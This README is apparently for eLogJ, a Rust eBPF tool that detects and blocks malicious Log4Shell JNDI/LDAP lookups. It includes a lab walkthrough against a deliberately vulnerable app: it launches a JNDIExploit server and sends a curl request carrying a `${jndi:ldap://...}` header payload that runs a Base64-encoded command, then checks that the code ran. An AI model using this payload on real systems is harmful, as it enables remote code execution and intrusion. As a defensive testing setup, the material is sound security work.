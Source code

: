 <img src="https://github.com/WillGAndre/eLogJ/blob/main/elogj.png" width="250">

# eLogJ
extended Log4j observability tool used to detect and prevent malicious JNDI (/LDAP) lookups. Currently tested in a controlled environment.<br>
- Developed with aya (https://github.com/aya-rs/aya) a Rust eBPF library.<br>
- Use in tandem with https://github.com/christophetd/log4shell-vulnerable-app (baseline).

0.1.2: Rulesets added as static file (logger-info).

### Dependencies
rust stable or nightly toolchain: `rustup install stable` / `rustup install nightly`
<br>
bpf-linker: `cargo install bpf-linker`

### Build Userspace:
> cargo build

### Build Kernelspace:
> cargo xtask build-ebpf

### Run:
> cargo xtask run

### Verbose:
> RUST_LOG=info cargo xtask run

<br>

## CVE-2021-44228

The repo (https://github.com/christophetd/log4shell-vulnerable-app) contains a Spring Boot web application which is vulnerable to the Log4Shell exploit. In order to boot this vulnerable instance, the following dependencies will be needed:<br>
>    ## Spring Boot (Docker):
>> <a href="https://github.com/christophetd/log4shell-vulnerable-app/blob/main/Dockerfile">Dockerfile</a><br>
>>        - Log4j 2.14.1 <br>
>>        - JDK 1.8.0_181
>    ## Malicious LDAP server:
>>        This server will essentially receive LDAP requests triggered by the JNDI lookup in Spring Boot (Log4j) and promptly respond. The response is a second-stage payload that actually leads to RCE, since any type of action can be compiled as a (malicious) java class. JNDI lookups are triggered by the Log4j logger when it detects an explicit JNDI lookup command when logging occurs (`${jndi:`). Note that the type of transport protocol may vary (LDAP, RMI, ..).
>>  JNDI exploit server (baseline): <a href="http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream">JNDIExploit</a><br>
>>        Other JNDI exploits will also be explored soon.
>    ## Explotation Steps:
> ### Spring Boot (Log4j) Instance:<br>
> docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
> ### JNDI Server:<br>
> java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
> ### Curl log:<br>
> curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
> ### Verify code execution: <br>
> docker exec vulnerable-app ls /tmp

Note: 
 Heavily WIP, deps/wiki/docs to be added soon.
